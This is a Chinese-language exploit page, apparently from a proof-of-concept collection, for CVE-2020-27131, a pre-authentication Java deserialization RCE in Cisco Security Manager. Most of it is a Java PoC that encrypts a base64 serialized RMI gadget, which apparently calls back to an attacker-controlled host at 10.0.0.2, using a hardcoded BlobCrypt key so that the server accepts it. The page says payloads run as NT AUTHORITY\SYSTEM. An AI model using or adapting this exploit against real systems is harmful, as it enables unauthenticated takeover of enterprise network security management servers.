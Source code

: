 # CVE-2020-27131 Cisco Security Manager 反序列化RCE

思科安全管理器是一个企业级安全管理应用程序，可提供对思科安全和网络设备的了解和控制。Cisco Security Manager在广泛的Cisco安全设备中提供全面的安全管理（配置和事件管理），包括Cisco ASA自适应安全设备，Cisco IPS系列传感器设备，Cisco集成服务路由器（ISR），Cisco防火墙服务模块（FWSM） ，Cisco Catalyst，Cisco交换机等等。Cisco Security Manager允许您有效地管理各种规模的网络-从小型网络到包含数百台设备的大型网络。

多个预身份验证漏洞已于2020-07-13提交给思科，并且（根据思科）已于2020-11-10在4.22版中进行了修补。发行说明未提及有关漏洞的任何信息，也未发布安全公告。所有有效负载均在NT AUTHORITY \ SYSTEM上下文中进行处理。

PoC：


```
import java.security.InvalidKeyException;
import java.util.Base64;
import com.cisco.nm.cmf.security.jaas.BlobCrypt;

public class JaasEncryptor {

        public static void main(String args[]) {
                String b64Payload = "rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3MQAKVW5pY2FzdFJlZgAIMTAuMC4wLjIAAAG7AAAAAEBnvkQAAAAAAAAAAAAAAAAAAAB4";

                byte[] payload = Base64.getDecoder().decode(b64Payload);
                byte[] key = new byte[]{-100, 76, -23, 87, 125, 0, 5, 94, 12, 76, 37, -84, 36, 78, 123, 5};
                
                byte[] enc = BlobCrypt.encryptArray(payload, key);
                System.out.println("Encrypted payload: " + Base64.getEncoder().encodeToString(enc));
                byte[] dec = BlobCrypt.decryptArray(enc, key);
        }
}
```

ref：

https://gist.github.com/Frycos/8bf5c125d720b3504b4f28a1126e509e#file-csm_pocs-md

https://forum.ywhack.com/thread-114711-1-4.html